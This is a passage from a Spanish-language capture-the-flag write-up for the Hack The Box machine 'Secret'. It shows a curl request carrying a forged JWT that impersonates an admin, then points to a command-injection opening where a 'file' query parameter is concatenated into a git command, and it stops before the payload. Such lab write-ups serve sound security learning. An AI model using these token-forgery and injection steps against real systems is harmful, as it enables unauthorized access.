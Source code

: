 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SECRET/images/26.png)

el valor de nombre ya esta modificado.

ahora mandemos a la ruta **/priv** para ver si somo admin:

```bash
curl 'http://secret.htb/api/priv' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWI0MDY3N2QwYjdmMzA0NjFlMmI5NTkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImtyaWtvNjlAaHRiLmNvbSIsImlhdCI6MTYzOTE4ODE2MH0.iAXcuzsLrFbgTPtiAFUre5CpMEtCMchnItzbViAF-Yw'
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SECRET/images/27.png)

logramos modificar el token JWT exitosamente y poder parecer admin, lo que significa que podemos probar el command injection, debemos enviar el payload en **/logs?file=PAYLOAD** y ese payload se concatena en este comando:

```bash
git log --oneline ${file}
```

para ver si funciona pondre este payload, no olviden mandar el token:
